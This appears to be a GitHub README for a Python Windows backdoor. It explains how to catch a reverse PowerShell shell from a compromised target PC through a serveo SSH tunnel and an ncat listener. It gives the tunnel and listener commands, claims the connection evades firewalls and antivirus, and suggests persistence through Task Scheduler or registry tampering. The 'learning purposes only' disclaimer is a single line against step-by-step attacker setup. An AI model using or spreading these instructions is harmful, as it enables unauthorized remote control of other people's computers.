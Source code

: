 # Python Backdoor for Windows On Public Networks

This project is a Python-based Windows backdoor that, once executed on the target PC, establishes a connection to a remote server hosted on SERVEO at a specified TCP port. The server then forwards the connection to the attacker's system, successfully bridging communication between the attacker's machine and the target system. This connection grants unauthorized access to the target machine and provides a PowerShell command interface. Through this interface, the attacker can remotely execute PowerShell commands on the compromised system. The best part for this is that this will work even if the firewall and antivirus are running, because all the communications are happening through an ssh tunnel.

- To get this to working a Tool must be installed on YOUR PC

## Netcat installation
  
  To be able to receive and interpret incoming backdoor as a PowerShell command line we should use 'Netcat'. Netcat, also known as Ncat, is a powerful networking tool used for reading and writing to network connections using TCP or UDP protocols.
  ### For Linux:
  ```shell
 sudo apt install ncat
  ```
  - This one commad is enough to set up ncat on linux
### For windows:

  For WINDOWS Netcat comes With a networking tool called 'Nmap':
  - Go to Nmap official site https://nmap.org/download.html#windows
  - Download nmap installer and run it.
  - ***CHECK Ncat at this window***
 ![nmap_setup](https://github.com/user-attachments/assets/1916f804-be3e-4a5e-a362-b9f4b95439ce)
  - Continue the installation with default settings after this.
 
 ## SSH Server setup (serveo)
  As mentioned already In order to receive connections from a public network we must have a public server capable of doing these things, for that 'serveo' is the best option. (it's an open source project )
  - you can visit 'https://serveo.net' for more knowledge
  
  ```powershell
  ssh -R 61732:localhost:5555 serveo.net
  ```
 ![ssh](https://github.com/user-attachments/assets/5308fea9-6efd-4d16-81d9-fc1b6b8d749f)
  - This command will connect port 5555 on our local machine to port 61732 on the public server 'serveo' , any TCP port between range (49152–65535) will work, change the port no if not available.
  - ***Make sure the port number here (in this case 61732) is same as the port number on python code***

 ### REMINDER: you should keep a dedicated terminal open running this ssh command in order for this to work
 ## Ncat usage
 After Successfull installation you should see like this when you run the command 'ncat' :
 ![ncat_test](https://github.com/user-attachments/assets/d752e99b-ec2e-4722-b81d-2bce64bfe825)


 ```powershell
 ncat -lnvp 5555 #the same local port that you specified in ssh command
 ```
   Execute the command to start listening for connections :
  ![conn_try](https://github.com/user-attachments/assets/1b144bb1-fdf1-4fa2-ac68-e4cb376c30ce)


 While the python command is running on the target device connection will be established now you can start exceuting commands:
 ![final](https://github.com/user-attachments/assets/ba7bc1af-675e-4697-a9a5-be3f7be5749f)

- ***If the connection is stuck or not responding just close the current terminal open new one and run the same command the python code try try to reconnect every 120sec of inactivity (the time delay can be modified from the code)***
- ***Remember do not leave the terminal inactive, the connection will be lost since the python code try to reconnect***

 For Learning purposes only.
 

 You can configure the system to automatically startup the program on reboot.
 ON windows systems you can do this by using Task Scheduler or by tampering with registry.
 
 
 Try your best not to do anything ilegal :)
